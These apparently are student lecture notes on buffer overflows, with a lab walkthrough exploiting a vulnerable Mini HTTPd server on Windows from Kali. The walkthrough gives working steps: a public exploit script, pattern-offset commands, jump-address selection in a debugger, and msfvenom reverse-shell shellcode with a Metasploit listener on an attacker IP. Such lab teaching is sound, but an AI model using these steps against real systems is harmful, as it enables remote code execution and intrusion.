







# Buffer Overflow

## Lecture Notes: Buffer Overflow Vulnerabilities

### Program Memory

* when you assign variables in a program, there are spaces in memory allocated for those values
* if you're saving a string (which is an array of characters) that is a password, it is saved character-by-character in the memory
  * additional variables would be most likely saved in the next space in memory
  * if the inputted string is longer than the space allocated it, it will keep overwriting the additional variables
  * ex. if the next variable is a boolean value determining whether or not the inputted string and the saved password match and the next variable is overwritten with a 1, then the authentication is bypassed

### Buffer Overflow

* what is a buffer?
  * memory used to store data temporarily while it's being moved from one area to another
* what is buffer overflow?
  * when a program attempts to put more data in a buffer than it can hold or when a program attempts to put data in a memory area past a buffer
* heap buffer overflow
  * heap: region of a process's memory that stores dynamic variables that are globally accessible
  * memory allocated must be cleared after it's allocated
* stack buffer overflow
  * stack: region of a process's memory that stores local variables used inside a function
  * memory allocated is cleared after the function runs
* potential security impacts of buffer overflow
  * availability: system crashes
  * loss of access control; a program executing code outside of its typical scope
  * follow-on actions: buffer overflows resulting in arbitrary code execution, giving the attacker additional access/capabilities
* the Morris Worm used a buffer overflow

## Lecture Notes: Buffer Overflow Creation with Fuzzing



### Setup

* Windows 10 server with vulnerable Mini HTTPd application
  * in minihttpd.ini:
    * change EXEC, LOGFILE, WEBROOT, and WEBCGI&#x20;
    * paths to where the minihttpd directory is stored
* Windows Defender Firewall -> Advanced Settings -> Inbound Rules -> New Rule -> Port -> TCP / 80
* Kali host

### Windows: Starting HTTPD

```
# open administrator CMD in C:\[file path]\minihttpd\
install.bat
netstat -p tcp -an
ipconfig
```

### Kali: Initial Overflow

<figure><figcaption></figcaption></figure>

```
searchsploit -m 26739.py
nano 26739.py
```

* change IPs
* change payload to payload = "A" \* 10000 and run
  * this will crash the web server, and the log file will show a GET request coming from the Kali host with 10000 As
  * can restart the web server in Services (Httpd Service)
  * this is what indicates that we have a buffer overflow problem

### Windows: Debugging

* open Immunity Debugger as admin
  * File -> Open -> minihttpd.exe
  * allows us to control each step in the process of a program running in memory
    * can inspect what it's doing, what it has in memory, etc.
  * application is paused when loaded because the debugger has control, not the OS
* hit play button twice- application will switch to running
* run exploit from Kali again
* should switch back to paused
* EIP in Registers window (instruction pointer, which tells the CPU what the next instruction to execute is) has been overwritten with As (41414141)
  * however, we don't know which 4 As of our 10000 were the ones replacing the EIP

### Kali: MSFPattern

```
msf-pattern_create -l 10000
# copy into payload
python2 exp1.py
msf-pattern_offset -q 33774732
```

* can now see what value the EIP is overwritten at
  * can test if this is correct by having all values up to the EIP be A ("A" \* 5348), have the EIP be B ("B" \* 4), and all values after the EIP be C ("C" \* 4864)
  * EIP should now be 42424242
  * stack becomes all Cs- means we have control over the memory
* add in "nops" (no operation) after EIP- "\x90" \* 16, then remove 16 from the C padding
  * when the jump is made, the jump is going to the nops, so then the execution continues to the exploit without anything else running
* go back to debugger
  * "e" -> KERNEL32 -> Ctrl + F for CALL ESI -> F2 (will highlight address and add a break point, where the application will stop)
* change EIP value to struct.pack("\<I", 0x76BB017D)
  * \<I denotes little endian
  * 0x\[hex] is the CALL ESI address
  * will put the address of the CALL ESI address as the EIP value, so clicking on EIP will bring you to CALL ESI in KERNEL32, which is a break point
* hit F7 (next executed) on CALL ESI- we will end up at the Cs (not at the NOPs, where it should be)
* break points are NOT maintained- must re-add after every execution and restart
* e -> ntdll -> Ctrl + F for CALL ESP
  * add break point
  * run exploit
  * F7 on CALL ESP will now bring us to the NOPs

<figure><figcaption><p>ESI value determined with msf-pattern</p></figcaption></figure>

<figure><figcaption><p>offset determined by msf-pattern</p></figcaption></figure>

<figure><figcaption><p>CALL ESI address in KERNEL32 module</p></figcaption></figure>

<figure><figcaption><p>EIP has now been pointed to CALL ESI, which is a breakpoint</p></figcaption></figure>

<figure><figcaption></figcaption></figure>

```
sudo msfconsole
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter_reverse_tcp
msf6 > set LHOST 192.168.8.133
msf6 > set LPORT 443
msf6 > msfvenom -p windows/shell/reverse_tcp LHOST=192.168.8.133 LPORT=443 -b "\x00\x0a\x0d\x20\x0b\x09\x0c" -a x86 --platform win -e x86/shikata_ga_nai -f c
run
# paste shellcode into exploit and change padding
```

* go back to debugger and hit F9- shell will now connect

<figure><figcaption></figcaption></figure>

### Additional Notes

* Python socket syntax
  * socket.AF\_INET
    * address family IPv4
  * socket.SOCK\_STREAM
    * TCP stream
  * s.connect(("\[IP]", \[port]))
    * connecting to a remote IP and port
* Can use Burp Suite to see if the website is sanitizing/handling input properly by modifying requests
* every program is a number of functions running one after the other
  * the system will allocate a piece of memory called the "stack" to track the program execution
  * the stack is a data structure- first in, last out
  * the EXE just becomes a set of instructions in memory that the CPU executes
* buffer overflow manipulates the stack- the stack is overwritten with the As being sent
* registers are the smallest memory storage units, located in the CPU
* 00 is a null terminator (bad character)- truncates payload because interpreter will think it is the terminating character of the program
* little endian and big endian are ways that architecture (instructions that CPU uses to handle memory addresses)
  * Intel and AMD are both little endian-based
  * they read memory addresses backwards (ex. AA BB CC DD in big endian becomes DD CC BB AA in little endian)
  * network traffic is sent in big endian, but pretty much everything else is sent in little endian
* OS kernel has a mitigation technique to randomize addresses, which is why addresses are different across different systems (called ASLR- Address Space Layer Randomization)
  * Windows XP didn't have ASLR, which is why the original exploit for this only works for Windows XP
